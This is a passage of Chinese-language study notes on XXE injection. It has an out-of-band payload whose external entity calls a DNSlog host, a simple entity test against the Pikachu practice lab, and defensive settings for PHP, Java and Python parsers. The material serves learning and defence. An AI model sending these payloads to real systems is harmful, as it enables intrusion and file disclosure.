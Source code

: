 ![image-20221125191451126](https://img.gyxnb.top/img/image-20221125191451126.png)

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a[
<!ENTITY % remote SYSTEM "http://test.bep1pi.dnslog.cn">%remote;]>
```

![image-20221125191612095](https://img.gyxnb.top/img/image-20221125191612095.png)

![image-20221125191645864](https://img.gyxnb.top/img/image-20221125191645864.png)

### 盲打-http接口参数，写入文件

![image-20221125183019656](https://img.gyxnb.top/img/image-20221125183019656.png)

## pikachu靶场

http://192.168.70.130/vul/xxe/xxe_1.php

```
<?xml version="1.0"?>  
<!DOCTYPE foo [     
<!ENTITY xxe "哈哈" > ]>  
<foo>&xxe;</foo>
```

![image-20221125194627357](https://img.gyxnb.top/img/image-20221125194627357.png)

# XXE 防御

## PHP

libxml_disable_entity_loader(true);

## Java

DocumentBuilderFactory dbf 

=DocumentBuilderFactory.newInstance(); 

dbf.setExpandEntityReferences(false);

## Python 

from lxml import etree 

xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))

## 过滤用户提交的XML数据
